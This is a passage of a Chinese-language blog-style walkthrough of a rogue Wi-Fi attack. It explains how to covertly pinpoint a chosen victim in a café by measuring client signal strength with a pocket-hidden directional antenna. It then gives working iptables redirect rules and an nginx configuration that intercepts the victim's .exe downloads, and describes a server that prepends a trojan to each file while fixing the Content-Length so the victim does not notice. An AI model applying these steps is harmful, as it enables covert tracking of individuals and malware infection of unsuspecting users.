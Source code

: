 在以目标为圆心，适宜半径的圆上放置定向天线，对准目标。这个时候把连接在 AP 上的所有客户端的信号强度（RSSI）记录下来。然后在圆上移动定向天线，保持天线对准目标，再次测量所有客户端的信号强度。大约把 12 点，3 点，6 点，9 点这四个方向上的数据记录下来就可以了。当然数据越多，结果越精确。

![信号强度算法示意图](https://o35qhjvld.qnssl.com/rouge-wifi-location-algorithm.png)

拿到数据以后，计算每一个客户端信号强度的方差，找出方差比较小的几个，然后比较平均信号强度，信号最强的那一个就是我们要找的目标。这个原理也很好理解，由于我们每次都在相同的距离将定向天线对准目标，那么几次测量过程目标的信号强度变化量应该是不大的，而其他的大部分客户端强度则有时被放大，有时减弱，波动明显。而另一小部分客户端，由于距离我们的天线很远，表现出每次测量的信号强度都是很小的，因此波动也很小。所以我们在找出信号强度方差最小的几个客户端里，取信号强度较强的那一个视为目标。

在实际操作过程中，我们通过 `iwinfo <wireless interface> assoclist` 命令获取到连接 AP 的所有客户端当前的信号强度，然后用 python 写了一个小脚本实现上述思路。因为信号强度更新速度慢，延时比较高，所以我们在每个方向上均测 50 组数据取平均值。一般在测量上述四个方向后，就可以得出正确率非常高的结果了。

你问拿着个天线一直对着人家就不可疑吗？实际上整套系统非常小巧。如果用树莓派作 AP，用充电宝来供电，装在一个口袋里，把小型定向天线装在另一个口袋里，绕着咖啡厅转一圈，装作四处看风景，就已经成功取得目标 MAC 地址了。隐蔽性可以做得很好。

## 第四步 中间人攻击

拿到目标的 MAC 地址，我们就可以放心地把其他人从 AP 中踢掉了，专心服务这一个客户端。

接下来一步，是要在目标下载二进制文件的时候，我们向其中加入一段木马程序。这里为了方便，我们假定用户使用的是 Windows 平台，因此要感染的对象就是 `exe` 文件了。

路由器上一般是把无线和有线端口之间用网桥连接起来，这样用户就可以正常上网了。而我们不希望仅仅是转发客户端的数据包。我们想要让他所有的包都经过我们自己的服务，从而进行拦截、过滤和修改。

`iptables` 正好符合我们的要求。我们在 `PREROUTING` 链中加入以下规则：

```
iptables -t nat -A PREROUTING -s 192.168.1.0/24 -p tcp --dport 80 -j REDIRECT --to-ports 8080
```

把所有 AP 子网的通往 80 端口的 TCP 包都转发到我们自己的 8080 端口上。

为了让目标的基于其他端口的应用还能正常工作，我们在 `POSTROUTING` 链加入以下规则：

```
iptables -t nat -A POSTROUTING -s 192.168.1.0/24 -j MASQUERADE
```

然后启动一个 nginx 服务器监听 8080 端口。当检查到以 `exe` 结尾的 URL，我们就转发到自己的 server 上，其他的请求仅作为透明代理正常转发。

```
server {
    listen 8080;

    location ~* \.exe$ {
        proxy_redirect off;
        proxy_set_header Host $host;
        proxy_pass http://127.0.0.1:3000;
    }   

    location / {
        proxy_pass http://$host$request_uri;
    }
}
```

接下来写一个简易的 Web server。我们已经拿到了 socket，要做的事情是先请求用户请求的资源，当 http response 返回以后，把其头部的 `Content-Length` 修改为原文件的长度加上我们的木马的长度。接着拼接这个 response，先把我们事先准备好的木马发给用户，再在后面接上用户请求的原程序。这样就做到了我们一边下载，一边给客户端传送的效果，客户端就很难察觉异常了。
